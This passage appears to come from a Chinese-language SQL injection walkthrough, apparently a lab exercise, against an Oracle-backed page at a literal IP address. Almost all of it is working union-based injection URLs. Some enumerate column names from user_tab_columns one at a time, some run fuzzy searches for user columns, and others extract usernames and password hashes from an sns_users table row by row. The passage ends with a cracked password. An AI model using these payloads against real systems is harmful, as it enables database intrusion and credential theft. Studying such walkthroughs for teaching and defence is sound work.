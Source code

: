 ```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where rownum=1 and column_name not in 'USER_NAME') from dual

http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where rownum=1 and column_name not in 'USER_NAME' and column_name not in 'AGENT_NAME') from dual

……………

http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where rownum=1 and column_name not in 'USER_NAME' and column_name not in 'AGENT_NAME' and column_name not in 'PROTOCOL' and column_name not in 'SPARE1' and column_name not in 'DB_USERNAME' and column_name not in 'OID' and column_name <> 'EVENTID' and column_name <> 'NAME' and column_name <> 'TABLE_OBJNO') from dual
```
```
获取如下字段：
USER_NAME
AGENT_NAME
PROTOCOL
SPARE1
DB_USERNAME
OID
EVENTID
NAME
TABLE_OBJNO
USAGE
USER_PWD
…………
```
### 模糊搜索查询
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where table_name='sns_users' and rownum=1 and column_name like '%USER%') from dual

http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where table_name='sns_users' and rownum=1 and column_name like '%USER%' and column_name <> 'USER_NAME') from dual
```
## 8、查询数据库数据
获取账号密码字段内容
```
http://219.153.49.228:43469/new_list.php?id=-1 union select USER_NAME,USER_PWD from "sns_users" where rownum=1
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627355758027-eb920ce1-1667-40c4-9703-bf055011ce09.png#align=left&display=inline&height=332&margin=%5Bobject%2Object%5D&name=image.png&originHeight=664&originWidth=2436&size=124453&status=done&style=none&width=1218)


```
http://219.153.49.228:43469/new_list.php?id=-1 union select USER_NAME,USER_PWD from "sns_users" where rownum=1 and USER_NAME <> 'zhong'
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627355803061-53c045a9-600d-4231-911b-a0b145fd8d32.png#align=left&display=inline&height=308&margin=%5Bobject%2Object%5D&name=image.png&originHeight=616&originWidth=2470&size=127349&status=done&style=none&width=1235)
```
http://219.153.49.228:43469/new_list.php?id=-1 union select USER_NAME,USER_PWD from "sns_users" where rownum=1 and USER_NAME <> 'zhong' and USER_NAME not in 'hu'
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627355829407-d770aa94-c339-4686-8131-9c5b9910039e.png#align=left&display=inline&height=288&margin=%5Bobject%2Object%5D&name=image.png&originHeight=576&originWidth=2436&size=121972&status=done&style=none&width=1218)
解密获取密码392118
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627355905460-f2485164-b4a8-4419-a99f-9752107804b7.png#align=left&display=inline&height=390&margin=%5Bobject%2Object%5D&name=image.png&originHeight=780&originWidth=1526&size=108851&status=done&style=none&width=763)
